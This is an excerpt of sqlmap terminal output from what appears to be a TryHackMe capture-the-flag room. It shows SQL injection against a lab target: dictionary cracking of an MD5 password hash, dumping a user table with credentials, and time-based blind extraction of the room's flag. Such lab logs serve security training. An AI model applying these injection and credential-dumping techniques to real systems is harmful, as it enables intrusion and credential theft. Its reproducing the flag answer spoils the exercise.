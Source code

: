 ```bash
[3] file with list of dictionary files
> 
[20:40:00] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[20:40:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:40:04] [INFO] starting 4 processes 
[20:40:06] [INFO] cracked password 'cutie' for user 'DesKel'                                                                                                                                                                                 
Database: THM_f0und_m3                                                                                                                                                                                                                       
Table: user
[2 entries]
+------------------------------------------+----------+
| password                                 | username |
+------------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b (cutie) | DesKel   |
| He is a nice guy, say hello for me       | Skidy    |
+------------------------------------------+----------+

[20:40:08] [INFO] table 'THM_f0und_m3.`user`' dumped to CSV file '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm/dump/THM_f0und_m3/user.csv'
[20:40:08] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:08] [INFO] retrieved: 
[20:40:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
1
[20:40:10] [INFO] retrieved: Easter_4
[20:40:39] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:39] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:39] [INFO] retrieved: 1
[20:40:40] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[20:42:18] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm/dump/THM_f0und_m3/nothing_inside.csv'
[20:42:18] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm'

[*] ending @ 20:42:18 /2021-08-23/


```

